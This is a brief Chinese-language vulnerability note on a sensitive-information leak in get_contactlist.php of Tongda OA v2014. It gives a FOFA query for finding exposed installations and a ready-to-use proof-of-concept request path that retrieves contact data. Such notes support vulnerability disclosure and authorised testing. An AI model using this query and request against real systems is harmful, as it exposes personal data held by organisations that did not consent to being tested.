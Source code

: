 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

```
通达OA v2014
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

版本信息

![image-20220520154718609](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201547687.png)

验证POC

```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220520154741599](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201547656.png)
